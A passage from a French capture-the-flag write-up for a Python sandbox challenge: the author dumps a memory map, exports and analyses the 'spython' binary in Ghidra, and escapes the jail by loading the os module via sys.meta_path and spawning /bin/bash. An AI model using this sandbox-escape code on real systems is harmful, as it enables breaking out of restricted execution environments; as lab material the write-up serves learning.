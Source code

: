 ```
7f5b9634a000-7f5b96352000 r--p 0001f000 09:03 14549310                   /lib/x86_64-linux-gnu/ld-2.30.so
7f5b96353000-7f5b96354000 r--p 00027000 09:03 14549310                   /lib/x86_64-linux-gnu/ld-2.30.so
7f5b96354000-7f5b96355000 rw-p 00028000 09:03 14549310                   /lib/x86_64-linux-gnu/ld-2.30.so
7f5b96355000-7f5b96356000 rw-p 00000000 00:00 0 
7ffe9728e000-7ffe972af000 rw-p 00000000 00:00 0                          [stack]
7ffe9735c000-7ffe9735f000 r--p 00000000 00:00 0                          [vvar]
7ffe9735f000-7ffe97361000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]

```

Fantastique : il semblerait que le serveur soit en fait lancé par un binaire nommé `/app/spython`, et on remarque aussi l'existence d'un fichier très intéressant nommé `/app/lib_flag.so`. Probablement la fonction `print_flag` tant recherchée se trouve à l'intérieur !

On dump le binaire `spython`, par exemple en l'encodant en hexadécimal et en le rapatriant sur sa machine à l'aide d'un habile copier-coller :

```python
tohex = L('binascii').hexlify
tohex(open('spython', 'rb').read())
```

On l'analyse avec Ghidra. Le binaire utilise l'API CPython et semble utiliser une mécanique de *hooks* pour bloquer certaines opérations, mais je ne connais pas le fonctionnement plus en détail et je n'ai pas réussi à comprendre exactement tout le fonctionnement du binaire. Heureusement ce n'est pas très important pour réussir l'épreuve.

![](https://i.imgur.com/OAK8Q9V.png)

On remarque la fonction `welcome` qui affiche le message du début : ce symbole n'existe pas dans le binaire, il provient certainement de la fameuse `lib_flag.so`.

Essayons d'ailleurs de lire ce fichier :

```python
>>> open('lib_flag.so', 'rb')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.8/codecs.py", line 905, in open
    file = builtins.open(filename, mode, buffering)
PermissionError: [Errno 13] Permission denied: 'lib_flag.so'
```

Mince... A ce moment-là je me suis dit que j'allais continuer à traiter l'épreuve comme une jail classique, et j'ai trouvé le moyen d'importer `os` et d'obtenir un shell. Spoiler alert, ce shell ne sert à rien pour la résolution.

```python
>>> sys = L('sys')
>>> os = sys.meta_path[2].find_module('os').load_module('os')
>>> shell = lambda: os.execl('/bin/bash','/bin/bash')
>>> shell()
bash: cannot set terminal process group (15810): Inappropriate ioctl for device
bash: no job control in this shell
ctf@whynotasandbox:/app$ ls -la
total 40
drwxr-xr-x 1 root     root  4096 Apr 25 20:58 .
drwxr-xr-x 1 root     root  4096 Apr 25 20:59 ..
-r-------- 1 ctf-init ctf  16064 Apr 25 20:58 lib_flag.so
-r-sr-x--- 1 ctf-init ctf  14904 Apr 25 20:58 spython
```
